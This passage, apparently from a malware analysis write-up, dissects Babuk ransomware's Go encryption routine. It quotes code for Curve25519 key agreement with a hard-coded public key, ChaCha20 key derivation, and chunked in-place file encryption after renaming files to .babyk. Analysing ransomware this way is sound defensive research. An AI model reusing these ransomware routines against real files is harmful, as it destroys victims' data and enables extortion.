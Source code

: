 *Note - `m_publ` is the hard coded public key embedded at the top of the file.*

```golang
curve25519.ScalarMult(&shared, &privateKey, &m_publ)
```

Following this the file is renamed to have a `.babyk` extension, then opened for reading and writing. The file is stat'ed to get a file size and based on that, later on, the chunk size that is encrypted changes. 

Next, it generates the key and nonce for `chacha20`. With the key and nonce a stream cipher is generated for encrypting file bytes. The believe the usage of the lock here is unnecessary but will go into more details on that in the code review section, as well, I may be missing something that the developers experienced in practice.

```golang
l.Lock()
var cc20_k = sha256.Sum256([]byte(shared[:]))
var cc20_n = sha256.Sum256([]byte(cc20_k[:]))
l.Unlock()

stream, err := chacha20.NewUnauthenticatedCipher(cc20_k[:], cc20_n[10:22])
if err != nil {
	fmt.Println(err)
	return
}
```

Now there are two cases based on the file size. Large cipher mode for files larger than `0x1400000` bytes (20 MB). Babuk splits up the file into `0xA00000` byte chunks, however, the buffer only encrypts the first `0x100000` bytes of that. I assume this is for speed, or maybe to give researchers something to notice and blog about. This means only about 1/10th of the file contents will be encrypted. This is enough to destroy the file, but there will still be a lot of content visible if you look at it in a hex editor.

```golang
var chunks int64 = file_size / 0xA00000
var buffer = make([]byte, 0x100000)

var i int64
for i = 0; i < chunks; i++ {
	fmt.Printf("Processing chunk %d\\%d (%s)\n", i+1, chunks, path)
	offset = i * 0xA00000
	file.ReadAt(buffer, offset)
	stream.XORKeyStream(buffer, buffer)
	file.WriteAt(buffer, offset)
}
```

The small cipher mode does something similar. This is for files smaller than `0x1400000`. If it is larger than `0x400000` bytes, it will only encrypt the first `0x400000`. Worst case this encrypts the first 20% of the file. Most cases though this will encrypt the entire file.

```golang
var size_to_encrypt int64 = 0
if file_size > 0x400000 {
	size_to_encrypt = 0x400000
} else {
	size_to_encrypt = file_size
}

var buffer = make([]byte, size_to_encrypt)
r, _ := file.ReadAt(buffer, offset)
if int64(r) != size_to_encrypt {
	fmt.Printf("ERROR: %d != %d\n", r, size_to_encrypt)
	return
}

stream.XORKeyStream(buffer, buffer)
```
